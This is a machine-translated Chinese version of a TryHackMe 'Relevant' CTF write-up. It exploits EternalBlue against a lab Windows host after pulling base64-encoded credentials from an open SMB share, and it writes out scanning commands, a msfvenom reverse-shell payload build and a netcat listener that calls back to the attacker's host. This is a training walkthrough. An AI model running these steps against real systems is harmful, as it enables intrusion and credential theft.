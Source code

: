 # TryHackMe —相关的 CTF 报道

> 原文：<https://infosecwriteups.com/tryhackme-relevant-ctf-write-up-7705501b73dd?source=collection_archive---------0----------------------->

![](img/4494acd1f6eaf3ca4abaf4d8bf638dc0.png)

相关是来自 TryHackMe 的中等挑战。有一些方法来完善这台机器，但在这篇文章中，我将解释如何使用与 samba 服务器相关的已知漏洞来完成。

首先，让我们从 Nmap 开始扫描所有端口。在这里，我们只需要运行:

```
nmap -oA nmap-full -Pn -sS -T4 -p- --defeat-rst-ratelimit 10.10.61.45
```

我已经设置了选项`-T4`和`--defeat-rst-ratelimit`来加快扫描速度，因为我在一个带 NAT 的虚拟机上运行 Kali，但这不是必须的。

正如你在下面看到的，这台机器有一堆开放的端口。有趣的是，我们注意到有一个 HTTP 服务器运行在端口 80 上，看起来像是一个 samba 服务器。还有一些其他更开放的端口，但是我不需要使用它们中的任何一个来获得 root，所以让我们跳过它们。

![](img/4f67a1610190b54793c7f84e7f0fdd59.png)

访问 web 服务器时，我们可以看到一个 Microsoft IIS 默认页面:

![](img/7cef06e2e158c92d8ba9d096b1aba7c1.png)

我已经尝试用 *gobuster* 枚举子目录，但什么也没找到，所以我们继续吧…

接下来，让我们看看我们能从 samba 服务器得到什么。使用 *smbclient* ，我们只需运行以下命令来尝试枚举共享，并将密码字段留空:

```
smbclient -L \\10.10.61.45\
```

![](img/2c742686d165e34306ebbabe003657a9.png)

很好，我们成功了！有一些默认共享，但 nt 4 works SV 可能隐藏了一些有趣的东西。我们可以尝试连接到这个共享，并通过运行以下命令来看看我们能得到什么:

```
smbclient \\10.10.61.45\nt4wrksv
```

如下图所示，有一个名为 *passwords.txt* 的文件:

![](img/caca377ae536ad56df5f2251a916adfd.png)

检查文件后，我们可以看到有两个 base64 编码的字符串:

![](img/74f2d47e5f88efe54753024690fe14c0.png)

通过解码这些字符串，我们似乎可以找到两个用户 Bill 和 Bob 的密码:

![](img/b9486a32658bd997698d6373c8edf491.png)

不错！我们得到了用户的凭证，但是现在呢？让我们再次使用 Nmap 来运行一些漏洞检查，这样我们就可以看到是否有任何易受攻击的服务器。我们可以使用`--script`参数来做到这一点:

```
nmap -oA nmap-vuln -Pn -script vuln -p 80,135,139,445,3389 10.10.61.45
```

![](img/e6bef1274597b13a17879714809ec6ff.png)

Nmap 检测到，由于 CVE-2017–0143，samba 服务器可能易受 RCE 攻击。快速搜索发现它与永恒之蓝漏洞有关:

![](img/9ac4f3174025e375e9dcdd3f102d5e0e.png)

因此，使用 *searchsploit* 我们可以获得永久蓝色漏洞:

![](img/42cdc7d4c1f8649b4a5e241e81c7ff38.png)

让我们使用第二个— windows/remote/42315.py:

```
searchsploit -m windows/remote/42315.py
```

![](img/603b98086ef71600c36d8c62ec037fbe.png)

为了运行这个漏洞，我们需要下载 *mysmb.py* 文件，正如脚本开头提到的。此外，我们可以为用户设置用户名和密码。

![](img/997d7764e7d2994d32ed11cae9f18c6e.png)

让我们使用之前获得的凭据。这里我使用 Bob 的凭证，因为 Bill 的无效:

![](img/a716f04319e0a49bad1955f59d0e8727.png)

通过阅读源代码，可以注意到`smb_pwn`函数创建了一个虚拟文件 pwned.txt 来测试漏洞。

![](img/2e32eae18caa139983e94d4b08b14c0d.png)

所以我们可以修改它来上传和执行一个反向 shell:

![](img/357c606d832c3fc6fae96cf142e217ac.png)

我们的 rshell.exe 可以用 *msfvenom* 获得。让我们通过运行以下命令来搜索 Windows 反向 shell 负载:

```
msfvenom -l payloads | grep windows | grep reverse | grep shell
```

![](img/5cf730e800ab8005fdd6c1ee761f3f2d.png)

选择*windows/shell _ reverse _ TCP*后，我们可以通过运行以下命令来查看参数:

```
msfvenom -p windows/shell_reverse_tcp --list-options
```

![](img/bfd8d1d6f246389493f94e5b3d7fa0c8.png)

我们需要用本地机器 IP 设置 LHOST 变量。我选择了 4444 本地端口值(l port ),但是您可以选择任何其他值。格式将是。因为它将在 windows 计算机上执行。所以完整的命令是:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.6.126 LPORT=4444 -f exe > rshell.exe
```

![](img/ae79d55ee12408fc7488bf4a51a53e5a.png)

在运行脚本之前，我们需要启动本地服务器。使用 *netcat* ，只需输入:

```
nc -lnvp 4444
```

现在使用远程机器 IP 运行脚本，您将获得以下输出:

![](img/2ba7bc4313e8257c5c2a6a49a491933e.png)

尽管显示了一些错误，但总体任务执行成功，为我们提供了一个带有特权用户的 shell:

![](img/fbf3c8f72fa1cc427314e545e0be40ea.png)

现在我们需要搜索标志，一个好的起点是 Users 文件夹，它包含两个用户，Bob 和 Administrator:

![](img/d4025a1bf290033ebd9d0a614030ef00.png)

用户标志可以在 Bob 目录下的桌面文件夹中找到:

![](img/9377cf9c1451ab12eb2d34e8c996b75e.png)

根标志位于管理员目录下的桌面文件夹中:

![](img/528fb3c7cd54ae5c4108f2baf35af5c2.png)

# 参考

*   [红队区——永恒之蓝](https://redteamzone.com/EternalBlue/)